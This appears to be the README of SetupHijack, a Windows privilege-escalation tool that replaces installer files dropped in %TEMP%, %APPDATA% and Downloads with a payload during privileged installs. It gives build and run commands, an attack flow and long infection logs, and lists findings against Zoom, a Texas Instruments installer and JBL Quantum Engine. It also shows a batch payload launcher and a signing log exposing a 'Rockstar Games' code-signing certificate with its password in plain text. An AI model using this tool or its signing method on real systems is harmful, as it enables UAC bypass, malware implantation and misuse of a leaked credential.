


# SetupHijack

---

## Overview

**SetupHijack** is a security research tool that exploits race conditions and insecure file handling in Windows installer and update processes. It targets scenarios where privileged installers or updaters drop files in `%TEMP%` or other world-writable locations, allowing an attacker to replace these files before they are executed with elevated privileges.

- Does **not** require elevated permissions to run.
- Does **not** use file system notifications (polls for changes instead).
- Exploits weaknesses in Authenticode code signing and installer trust models.
- Can infect `.exe`, `.msi`, and batch files (e.g., `sysinfo`, `netstat`, `ipconfig`).
- Designed for red team, penetration testing, and security research use only.

The intended use of this tool is to run in the background on a compromised user account with privileges, in order to elevate another process by hijacking installer/updater file drops. 

The chart below shows real-world example use cases of this exploit in multiple scenarios that can be used for UAC bypass. UAC bypasses are considered a security boundary when running under Adminless and are a common "attacker requirement" for disabling security controls. Exploitation of privileged Administrator operations provides generic exploit accessibility for malicious code to side-load or escalate process privileges. This tool can be used to identify additional applications which are exposed to the same types of risk, an attacker can wait for execution of these processes as a means to gain elevated rights without disrupting user behaviors. 



## How It Works

1. **SetupHijack** continuously scans `%TEMP%` (and subdirectories) for new or modified installer files.
2. When a target file is detected, it is replaced with a user-supplied payload (EXE, MSI, or BAT), optionally preserving the original as a `.bak` file.
3. If the privileged process executes the replaced file before integrity checks, the payload runs with elevated rights (e.g., SYSTEM or Administrator).
4. The tool logs all actions and maintains a skiplist to avoid re-infecting the same files.

## Code Signing Note

This project uses a hacked code-signing process with [SignToolEx.exe and SignToolExHook.dll](https://github.com/hackerhouse-opensource/SignToolEx) to sign payloads and installers. Using valid code-signing certificates and an Authenticode timestamp will increase your success rate when bypassing installer and OS trust checks.

---

## Usage

### Build

```sh
nmake PAYLOAD=c:\Path\to\your\payload.exe
```

### Run (Options)

```sh
SetupHijack.exe                  # Scan %TEMP%, %APPDATA%, and %USERPROFILE%\Downloads (default)
SetupHijack.exe -notemp          # Disable scanning %TEMP%
SetupHijack.exe -noappdata       # Disable scanning %APPDATA%
SetupHijack.exe -nodownloads     # Disable scanning %USERPROFILE%\Downloads
SetupHijack.exe clean            # Clean mode (restores .bak backups in all enabled locations)
SetupHijack.exe verbose          # Verbose mode (log all actions)
SetupHijack.exe <payload.exe>    # Use specified payload for .exe (unless argument is a recognized option)
```

- Run **SetupHijack.exe** before or during a privileged install/update process.
- By default, the tool scans all common drop locations: %TEMP%, %APPDATA%, and %USERPROFILE%\Downloads.
- You can disable any location with the `-notemp`, `-noappdata`, or `-nodownloads` flags.
- The `clean` flag restores backups in all enabled locations. The `verbose` flag logs all actions.
- For remote escalation, use with `shadow.exe` or similar tools on Terminal Services.

## Example Attack Flow

1. Build your payload and SetupHijack:
   ```sh
   nmake PAYLOAD=c:\Users\YourUser\Desktop\payload.exe
   ```
2. Start SetupHijack:
   ```sh
   SetupHijack.exe
   ```
3. Launch the target installer or update process as Administrator.
4. If the installer drops files in `%TEMP%` and executes them with elevated rights, your payload will be substituted and run.

## Example Output

Below is a real example of building and running SetupHijack, including code signing and infection output:

```
C:\Users\Fantastic\Desktop\Sayuri\InfectElevatedSetups>nmake PAYLOAD="C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe"

Microsoft (R) Program Maintenance Utility Version 14.29.30159.0
Copyright (C) Microsoft Corporation.  All rights reserved.

        powershell -Command "(Get-Content SetupHijack.cpp) -replace '#define PAYLOAD_PATH L\".*\"', '#define PAYLOAD_PATH L\"%ESCAPED_PAYLOAD%\"' | Set-Content SetupHijack.cpp"
        cl /nologo /W4 /EHsc /DUNICODE /D_UNICODE /MT /O2 /c SetupHijack.cpp
SetupHijack.cpp
SetupHijack.cpp(318): warning C4189: 'hr2': local variable is initialized but not referenced
        taskkill /f /im SetupHijack.exe 2>nul
        powershell -Command "Start-Sleep -Milliseconds 500"
        link /nologo /SUBSYSTEM:CONSOLE /ENTRY:wmainCRTStartup /NODEFAULTLIB:MSVCRT /NODEFAULTLIB:MSVCPRT /OUT:SetupHijack.exe SetupHijack.obj kernel32.lib user32.lib shlwapi.lib Shell32.lib /MANIFEST /MANIFESTFILE:SetupHijack.exe.manifest
        copy /y install.wxs.template install.wxs
        1 file(s) copied.
        powershell -Command "(Get-Content install.wxs) -replace 'Source=\"PAYLOAD_PLACEHOLDER\"', 'Source=\"%ESCAPED_PAYLOAD%\"' | Set-Content install.wxs"
        wix build install.wxs -o install.msi
Generating install.bat with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
Generating launch_payload.bat with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
        powershell -Command "(Get-Content install.wxs) -replace '(<File Id=\"RengeExeFile\" Source=\").*?(\" KeyPath=\"yes\"/>)', '`%ESCAPED_PAYLOAD%`' | Set-Content install.wxs"
        call sign_random.bat
Using CERT: [certs\rockstar1.pfx]
Using PASS: [C!EZxYUxVGPzQDj3]
The following certificate was selected:
    Issued to: Rockstar Games, Inc.
    Issued by: Entrust Code Signing CA - OVCS1
    Expires:   Thu Mar 20 17:16:13 3000
    SHA1 hash: C9793F4A2E629D88F2213622D7A0C170D9C7CBC6

Done Adding Additional Store
Successfully signed: SetupHijack.exe

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0
The following certificate was selected:
    Issued to: Rockstar Games, Inc.
    Issued by: Entrust Code Signing CA - OVCS1
    Expires:   Thu Mar 20 17:16:13 3000
    SHA1 hash: C9793F4A2E629D88F2213622D7A0C170D9C7CBC6

Done Adding Additional Store
Successfully signed: install.msi

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0

C:\Users\Fantastic\Desktop\Sayuri\InfectElevatedSetups>SetupHijack.exe
[2025-09-24 15:20:46] [SetupHijack] Using payload: C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 15:20:46] [SetupHijack] If infecting .msi, will use: install.msi
[2025-09-24 15:20:46] [SetupHijack] Polling enabled locations recursively for .exe, .msi, .bat:
[2025-09-24 15:20:46]   - C:\Users\FANTAS~1\AppData\Local\Temp
[2025-09-24 15:20:46]   - C:\Users\Fantastic\AppData\Roaming
[2025-09-24 15:20:46]   - C:\Users\Fantastic\Downloads
[2025-09-24 15:20:46] [SetupHijack] Entering infection loop.
[2025-09-24 15:20:59] [SetupHijack] Total infections this session: 0
[2025-09-24 15:21:13] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\installcmd.bat with payload install.bat, backup: C:\Users\FANTAS~1\AppData\Local\Temp\installcmd.bat.bak
[2025-09-24 15:21:13] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:22] [SetupHijack] Replaced C:\Users\Fantastic\Downloads\installcmd.msi with payload install.msi, backup: C:\Users\Fantastic\Downloads\installcmd.msi.bak
[2025-09-24 15:21:26] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:26] [SetupHijack] Total infections this session: 2
[2025-09-24 15:21:41] [SetupHijack] Replaced C:\Users\Fantastic\AppData\Roaming\InsecureApp\setup.exe with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\Fantastic\AppData\Roaming\InsecureApp\setup.exe.bak
[2025-09-24 15:21:41] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:53] [SetupHijack] Total infections this session: 3
```

## Example Use to Deploy An Implant

Below is a screenshot showing SetupHijack in action, deploying an implant during a privileged installer run:



## Security Notes

- This tool is for authorized testing and research only.
- Exploiting these weaknesses can result in full SYSTEM compromise when user in Administrator group.
- Installers may use hash/signature checks that will block this attack, but many still do not.
- Always use in a controlled environment.
- If you discover a CVE or get bounty with this tool, credit us!

Targeting a single directory (such as `%TEMP%`) at a time can increase the likelihood of winning any time-of-creation/time-of-use (TOCTOU) race condition, as it allows for faster polling and less contention. For maximum reliability, run multiple instances of SetupHijack, each focused on a single directory. For optimum results, ensure your payload (the EXE you want to run elevated) includes a manifest requesting elevation (requireAdministrator), and is signed with a valid code-signing certificate that includes an Authenticode timestamp. This increases the chance of bypassing installer and OS trust checks on installers.

## VulnerabiFindings

- Zoom 6.6.1 (15968) uses %AppData% for .exe install and updates allowing lateral process movement and
  process spoofing (e.g. send elevation request from Zoom update). Executables can be manipulated easily
  for credential stealing attacks and malicious purposes.

```
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\airhost.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\aomhost64.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\CptControl.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\CptHost.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\CptInstall.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\CptService.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\Installer.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\zCrashReport.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\zCrashReport64.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\Zoom.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\ZoomDocConverter.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\ZoomHybridConf.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\ZoomOutlookIMPlugin.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\ZoomOutlookMAPI\ZoomOutlookMAPI.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\ZoomOutlookMAPI\ZoomOutlookMAPI64.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\Zoom_launcher.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\zTscoder.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\zUpdater.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\bin\zWebview2Agent.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\uninstall\Installer.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 19:27:31] [SetupHijack] Infecting: C:\Users\Fantastic\AppData\Roaming\Zoom\ZoomDownload\Installer.exe with payload: c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe
```

- msiexec.exe when running install.msi executes under NT AUTHORITY\SYSTEM

- Wireshark update exe comes through %Temp%, didn't win race.

- Visual Studio code-signing checks on updates prevent exploitation, (lightly tested .VSIX)

- Texas Instrument Code Composer Installer can be exploited for UAC auth bypass 09/25/2025.
  (ccs_setup_20.3.0.00014.exe)

```
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\7z.exe with payload c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\7z.exe.bak
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\7za.exe with payload c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\7za.exe.bak
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\ccs_monitor.bat with payload install.bat, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\ccs_monitor.bat.bak
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\ccs_update_20.3.0.00014.exe with payload c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\ccs_update_20.3.0.00014.exe.bak
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\certificates\install-certs.bat with payload install.bat, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\certificates\install-certs.bat.bak
[2025-09-25 14:39:59] [SetupHijack] New infections this run: 1
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\curl.exe with payload c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\curl.exe.bak
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\signing\sign.bat with payload install.bat, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\signing\sign.bat.bak
[2025-09-25 14:39:59] [SetupHijack] New infections this run: 1
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\wget\wget.exe with payload c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\wget\wget.exe.bak
[2025-09-25 14:39:59] [SetupHijack] New infections this run: 1
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\zip\unzip.exe with payload c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\zip\unzip.exe.bak
[2025-09-25 14:39:59] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\zip\zip.exe with payload c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\FANTAS~1\AppData\Local\Temp\ccs_fe3a9075-a8c1-44c2-69a2-0d76d423353e\util\zip\zip.exe.bak
[2025-09-25 14:39:59] [SetupHijack] New infections this run: 2
[2025-09-25 14:39:59] [SetupHijack] New infections this run: 5
[2025-09-25 14:40:02] [SetupHijack] Total infections this session: 13
[2025-09-25 14:40:29] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\tmp1758829228.bat with payload install.bat, backup: C:\Users\FANTAS~1\AppData\Local\Temp\tmp1758829228.bat.bak
[2025-09-25 14:40:29] [SetupHijack] New infections this run: 1
```

- Cursor IDE has been observed creating .bat files and command history in %TEMP% that can be exploited to inject
  commands into the Cursor history, elevation limited. 


- JBL Quantum Engine contains a (now patched) Command Injection flaw that runs "net" (including .bat) from the
  same directory JBL_QuantumENGINE_1.11.0.1511_x64 is executed from. The latest version uses a new installer that
  is not vulnerable to this specific command injection flaw (JBL_QuantumENGINE_Installer_2.2.13_x64.exe). This
  issue was discovered as 0day in November 2022. It can be used to bypass UAC restrictions and gain elevated 
  Administrator rights. The SYSTEM service writes bat files under %TEMP% for debugging/diagnostics. ;-)


```
C:\Users\Fantastic\Desktop\Sayuri\JBL_and_WinAudioCore_0day>type net.bat
@echo off
REM install.bat - runs the payload for SetupHijack
start "" "c:\Users\Fantastic\Desktop\DEMO\Renge_x64.exe"

C:\Users\Fantastic\Desktop\Sayuri\JBL_and_WinAudioCore_0day>dir JBL_QuantumENGINE_1.11.0.1511_x64.exe
 Volume in drive C has no label.
 Volume Serial Number is 48EC-B703

 Directory of C:\Users\Fantastic\Desktop\Sayuri\JBL_and_WinAudioCore_0day

11/20/2022  11:54 AM       139,327,096 JBL_QuantumENGINE_1.11.0.1511_x64.exe
               1 File(s)    139,327,096 bytes
               0 Dir(s)  237,500,821,504 bytes free
``` 
These files are available under an Attribution-NonCommercial-NoDerivatives 4.0 International license.
